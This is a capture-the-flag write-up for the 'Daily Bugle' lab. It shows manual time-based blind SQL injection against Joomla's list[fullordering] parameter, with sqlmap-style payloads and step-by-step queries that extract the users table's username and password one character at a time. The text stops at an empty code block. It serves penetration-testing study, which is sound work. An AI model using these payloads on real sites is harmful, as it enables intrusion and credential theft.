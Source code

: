 # The Daily Bugle Room

### Introduction

I tried doing this room without `sqlmap` as OSCP does not allow it in the exam. I wanted to see at least how you can take advantage of the blind sql injecion. 

All the write-ups for this room were using sqlmap and I will discuss how I did it without it. This will possibly help you as I could not find a straight forward guide on this exact setup.

### Diving into the SQLi
So we know the Joomla version and we have an exploit for it.

```
Parameter: list[fullordering] (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (DUAL)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)
```

Searched the internet I could not find the exact way to leverage this info. Running `list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)` takes 5 seconds to return data, which means we can test queries. Playing with  the query `list[fullordering]=xxxx` yelds `Unknown column 'xxxx' in 'order clause'` and a 500 response. Now I know there is an **order by** statement there and that a correct query would return 200 and display an error. 

I am now trying to construct the original query using https://sqliteonline.com/ to test it.

```
SELECT 1 FROM demo ORDER BY 2;
```

**ORDER BY** takes selects as input as long as the select returns one column. Step by step I am going to build a query that will take longer when we have true statements. `SLEEP()` usually returns a 0 I am not sure why you can order by it but it seems to work.

```
SELECT 1 FROM demo ORDER BY (SELECT SLEEP(5) FROM demo limit 1);
```

So the query works and is delayed by 1 second. With adding of the WHERE statement we can make true/false selections.

```
SELECT 1 FROM demo ORDER BY (SELECT SLEEP(5) FROM demo limit 1);
SELECT 1 FROM demo ORDER BY (SELECT SLEEP(5) FROM demo where 1>2 limit 1); #FALSE
SELECT 1 FROM demo ORDER BY (SELECT SLEEP(5) FROM demo where 1<2 LIMIT 1); #TRUE
SELECT 1 FROM demo ORDER BY (SELECT SLEEP(5) FROM demo where (SELECT COUNT(1) FROM demo)=6 LIMIT 1); # TRUE 
SELECT 1 FROM demo ORDER BY (SELECT SLEEP(5) FROM demo where (SELECT COUNT(1) FROM demo)=5 LIMIT 1); # FALSE
```

Now we can use this to test how many rows a table has in our application. Joomla documentation shows us the default table for users. I am now using 

```
(SELECT SLEEP(5) FROM #__users where (SELECT COUNT(1) FROM #__users)=1 LIMIT 1)
```
I am not sure if we can send this directly to our browser. Let's url encode it
```
%28SELECT%20SLEEP%285%29%20FROM%20%23__users%20where%20%28SELECT%20COUNT%281%29%20FROM%20%23__users%29%3D1%20LIMIT%201%29 
```

I can now use OWASP Zap to fuzz the 1 here *%28SELECT%20COUNT%281%29%20FROM%20%23__users%29%3D**1**%20*. We can also write a script to automate this in python like we will see below.

Ok. So running the fuzzer shows a single row. Moving forward we check how many characters would the username and passwrod have.

```
(SELECT SLEEP(5) from #_users WHERE ((SELECT LENGTH(username) FROM #__users LIMIT 1 OFFSET 0))=1 limit 1)
```

Now we know how many characters we need to iterate thorugh to get the data. 
```
(SELECT SLEEP(5) from #__users WHERE substring((SELECT username FROM #__users LIMIT 1 OFFSET 0),1,1)=BINARY 0x6a limit 1)
(SELECT SLEEP(5) from #__users WHERE substring((SELECT username FROM #__users LIMIT 1 OFFSET 0),2,1)=BINARY 0x6a limit 1)
```
**LIMIT ... OFFSET ...** is used to iterate one row at a time. We do not need this for here as we have only one row in the table but might come in handy.

**substring(...,...,...)** is used to take each character at a time.

**=BINARY 0x...** is needed because Joomla did not like any '/" characters and so we switched to hex encoding. 

Extraction time. Being the password is really long we need some automation. We can do it in OWASP Zap I figure but I am not sure if it's easy to trasnfer out the data. A python script should work. :) 

```
